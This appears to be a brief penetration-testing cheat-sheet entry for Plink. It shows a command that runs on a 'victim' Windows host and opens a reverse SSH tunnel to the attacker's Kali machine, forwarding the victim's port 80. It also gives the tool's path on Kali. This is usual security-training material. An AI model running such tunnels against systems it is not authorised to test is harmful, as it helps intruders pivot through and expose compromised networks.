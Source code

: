 # Name
Plink

## Usage
```
# To forward victim port 80 to kali's port 80 
plink.exe -N -R 80:127.0.0.1:80 kali@192.168.45.5 -pw <kali's pw> 
```

## Source
/usr/share/windows-binaries/plink.exe
